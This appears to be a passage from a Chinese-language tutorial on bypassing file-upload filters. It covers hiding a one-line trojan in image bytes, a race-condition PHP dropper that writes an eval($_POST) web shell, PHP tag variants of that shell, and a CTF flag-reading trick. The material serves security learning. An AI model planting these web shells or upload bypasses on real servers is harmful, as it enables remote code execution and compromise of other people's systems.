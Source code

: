 服务器上传图片功能代码

下载上传后的图片，并用

winhex.exe一句话木马

使用winhex对比功能，找到原图片与上传后图片的相同之处，并在该位置插入恶意代码；

实际操作：winhex------》工具------》比较------》搜索相同；展示区，蓝色部分是没有发生变化的,

在图片相同处，蓝色部分位置中间插入恶意代码，并上传，成功绕过；

然后使用文件包含来利用木马

##### **条件竞争绕过**

漏洞原理：先将上传的文件保存在服务器中，然后再进行对比白名单，如果不在白名单就删除，所以我们可以一边疯狂上传一边疯狂访问执行跳转木马

\<?php fputs(fopen(\"info.php\", \"w\"), \'\<?php
\@eval(\$\_POST\[\"x\"\]);?\>\'); ?\>

这个跳转木马就是访问内容为这个的木马就会生产名字为info.php的木马文件内容为后面的内容从而产生木马。

#### 文件内容黑名单
##### PHP 标签绕过
==XML风格==
```php
<?php
eval($_POST['cmd']); 
?>
```
php推荐风格，管理员无法禁用，所有服务器都可以使用

==脚本风格==
```java
<script language="php">
    eval($_POST['cmd']);
</script>
```
默认开启无法禁用，如果有检测可以使用大小写之类的试试

==简短风格==
```php
<? eval($_POST['cmd']); ?>
```
此风格要在配置文件php.ini中开启short_open_tage选项
在很多环境不支持

==ASP风格==
```asp
<% 
    eval($_POST['cmd']);
%>
```

此种风格需要在配置文件php.ini中启用asp_tag选项
在默认情况下是禁用的











**CTF例题**

过滤了文件后缀名，mime类型，文件头，文件内容而且限制文件长度为15个字节及以下。

测试下来pht可以被正常解析，利用BM头和php中的反引号直接读取flag。

![截图.png](    Web/media/image23.png){width="5.760416666666667in"
height="4.409590988626421in"}